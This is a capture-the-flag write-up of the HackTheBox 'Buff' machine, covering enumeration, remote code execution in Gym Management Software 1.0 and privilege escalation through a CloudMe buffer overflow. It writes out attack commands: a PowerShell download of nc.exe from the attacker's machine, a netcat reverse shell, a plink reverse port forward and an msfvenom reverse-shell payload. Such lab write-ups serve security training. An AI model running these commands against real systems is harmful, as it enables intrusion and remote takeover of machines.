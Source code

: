 [HackTheBox] Buff
===============
date: 24/Nov/2020
summary: This is the summary for an awesome post.
tags: hackthebox, writeup

## Overview
![writeup.metadata.infocard](/static/files/posts_htb_buff/infocard.png.webp)

This is a writeup for HackTheBox VM [Buff](https://www.hackthebox.eu/home/machines/profile/263). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:

### Killchain
![writeup.overview.killchain](/static/files/posts_htb_buff/killchain.png)

### TTPs
1\. `8080/tcp/http/Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)`: [enumerate_proto_http](https://github.com/7h3rAm/writeups#enumerate_proto_http), [exploit_gymsystem_rce](https://github.com/7h3rAm/writeups#exploit_gymsystem_rce), [exploit_cloudme_bof](https://github.com/7h3rAm/writeups#exploit_cloudme_bof)  

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.80 scan initiated Wed Jul 22 21:04:22 2020 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /home/kali/toolbox/repos/writeupsall/htb.buff/10.10.10.198/scans/_quick_tcp_nmap.txt -oX /home/kali/toolbox/repos/writeupsall/htb.buff/10.10.10.198/scans/xml/_quick_tcp_nmap.xml 10.10.10.198
Nmap scan report for 10.10.10.198
Host is up, received user-set (0.34s latency).
Scanned at 2020-07-22 21:04:36 IST for 101s
Not shown: 999 filtered ports
Reason: 999 no-responses
PORT     STATE SERVICE REASON  VERSION
8080/tcp open  http    syn-ack Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 22 21:06:17 2020 -- 1 IP address (1 host up) scanned in 114.83 seconds
```

2\. We find '8080/tcp' to be open and running `Apache httpd 2.4.43`. We start by looking at the webpage and find it be hosting a fitness center portal:  

![writeup.enumeration.steps.2.1](/static/files/posts_htb_buff/screenshot01.png)  

3\. We find multiple pages from the `gobuster` scan results and upon visiting `/contacts.php` page, we find that we are interacting with the `Gym Management Software 1.0` web application:  
```
cat ./10.10.10.198/scans/tcp_8080_http_gobuster.txt | grep -v 403
  /ADMIN (Status: 301) [Size: 343]
  /About.php (Status: 200) [Size: 5337]
  /Admin (Status: 301) [Size: 343]
  /Contact.php (Status: 200) [Size: 4169]
  /Home.php (Status: 200) [Size: 143]
  /Index.php (Status: 200) [Size: 4969]
  /LICENSE (Status: 200) [Size: 18025]
  /about.php (Status: 200) [Size: 5337]
  /admin (Status: 301) [Size: 343]
  /boot (Status: 301) [Size: 342]
  /contact.php (Status: 200) [Size: 4169]
  /edit.php (Status: 200) [Size: 4282]
  /ex (Status: 301) [Size: 340]
  /feedback.php (Status: 200) [Size: 4252]
  /home.php (Status: 200) [Size: 143]
  /img (Status: 301) [Size: 341]
  /include (Status: 301) [Size: 345]
  /index.php (Status: 200) [Size: 4969]
  /index.php (Status: 200) [Size: 4969]
  /license (Status: 200) [Size: 18025]
  /packages.php (Status: 200) [Size: 7791]
  /profile (Status: 301) [Size: 345]
  /register.php (Status: 200) [Size: 137]
  /up.php (Status: 200) [Size: 209]
  /upload (Status: 301) [Size: 344]
  /upload.php (Status: 200) [Size: 107]
```

![writeup.enumeration.steps.3.1](/static/files/posts_htb_buff/screenshot02.png)  

### Findings
#### Open Ports
```
8080/tcp   http         Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
```

## Phase #2: Exploitation
1\. We use `searchsploit` to find exploits for the webapp and find an unauthenticated remote code execution vulnerability. We inspect the exploit and upon executing it, we get a pseudo-interactive shell on the target machine:  
```
python 48506.py http://10.10.10.198:8080/
```

![writeup.exploitation.steps.1.1](/static/files/posts_htb_buff/screenshot03.png)  

![writeup.exploitation.steps.1.2](/static/files/posts_htb_buff/screenshot04.png)  

2\. To get a fully interactive shell, we use powershell to transfer netcat binary, start a local netcat listener and then catch the incoming connection:  
```
nc -nlvp 4433

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.8:8000/nc.exe','C:\Users\shaun\Desktop\nc.exe')"
C:\Users\shaun\Desktop\nc.exe 10.10.14.8 4433 -e cmd.exe
```

![writeup.exploitation.steps.2.1](/static/files/posts_htb_buff/screenshot05.png)  

![writeup.exploitation.steps.2.2](/static/files/posts_htb_buff/screenshot06.png)  

3\. We use this interactive access to read the `user.txt` flag:  
```
type C:\Users\shaun\Desktop\user.txt
```

![writeup.exploitation.steps.3.1](/static/files/posts_htb_buff/screenshot07.png)  

## Phase #2.5: Post Exploitation
```
buff\shaun@BUFF> id
buff\shaun
buff\shaun@BUFF>  
buff\shaun@BUFF> uname
Host Name:                 BUFF
OS Name:                   Microsoft Windows 10 Enterprise
OS Version:                10.0.17134 N/A Build 17134
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
buff\shaun@BUFF>  
buff\shaun@BUFF> ifconfig
Windows IP Configuration
  Ethernet adapter Ethernet0:
    Connection-specific DNS Suffix  . :
    IPv6 Address. . . . . . . . . . . : dead:beef::616c:bed8:4b75:6e17
    Temporary IPv6 Address. . . . . . : dead:beef::7813:413b:2e52:5901
    Link-local IPv6 Address . . . . . : fe80::616c:bed8:4b75:6e17%10
    IPv4 Address. . . . . . . . . . . : 10.10.10.198
    Subnet Mask . . . . . . . . . . . : 255.255.255.0
    Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:9eb2%10
                                        10.10.10.2
buff\shaun@BUFF>  
buff\shaun@BUFF> users
Administrator
shaun
```

## Phase #3: Privilege Escalation
1\. We use `winPEAS.exe` to enumerate the target machine and within the `services restricted from the outside` section, find an interesting service bound to `127.0.0.1:8888`:  
```
netstat -anp tcp
```

![writeup.privesc.steps.1.1](/static/files/posts_htb_buff/screenshot08.png)  

2\. We find this to be a `CloudMe` process and there's a binary named `CloudMe_1112.exe` within the `C:\Users\shaun\Downloads` directory that hints that the version could be `1.11.2`:  
```
powershell ps
```

![writeup.privesc.steps.2.1](/static/files/posts_htb_buff/screenshot09.png)  

![writeup.privesc.steps.2.2](/static/files/posts_htb_buff/screenshot10.png)  

3\. We find a buffer overflow exploit for this application that could give us elevated privileges if the `CloudMe` process is running as Administrator:  
```
searchsploit cloudme
```

![writeup.privesc.steps.3.1](/static/files/posts_htb_buff/screenshot11.png)  

4\. But we cannot connect to this service from our attacking machine. We will need to setup a port forward for this exploit to work. We start the SSH service on our attacking machine, transfer the `plink.exe` binary and setup the port forward:  
```
service ssh restart
service ssh status
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.8:8000/plink64.exe','C:\Users\shaun\Desktop\plink.exe')"
C:\Users\shaun\Desktop\plink.exe -v -x -a -T -C -noagent -ssh -pw "kali" -R 8888:127.0.0.1:8888 kali@10.10.14.8
```

![writeup.privesc.steps.4.1](/static/files/posts_htb_buff/screenshot12.png)  

![writeup.privesc.steps.4.2](/static/files/posts_htb_buff/screenshot13.png)  

5\. We update the exploit with the right shellcode, setup a reverse shell to catch incoming connection and run the exploit:  
```
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.8 lport=443 -b "\x00\x0a\x0d" -f python -a x86 --platform windows -e x86/shikata_ga_nai

sudo nc -nlvp 443
python 48389.py
```

![writeup.privesc.steps.5.1](/static/files/posts_htb_buff/screenshot14.png)  

6\. We immmediately get an elevated reverse shell connection and use it to read the `root.txt` flag:  
```
type C:\Users\Administrator\Desktop\root.txt
```

![writeup.privesc.steps.6.1](/static/files/posts_htb_buff/screenshot15.png)  

## References
* <https://www.hackthebox.eu/home/machines/profile/263>  
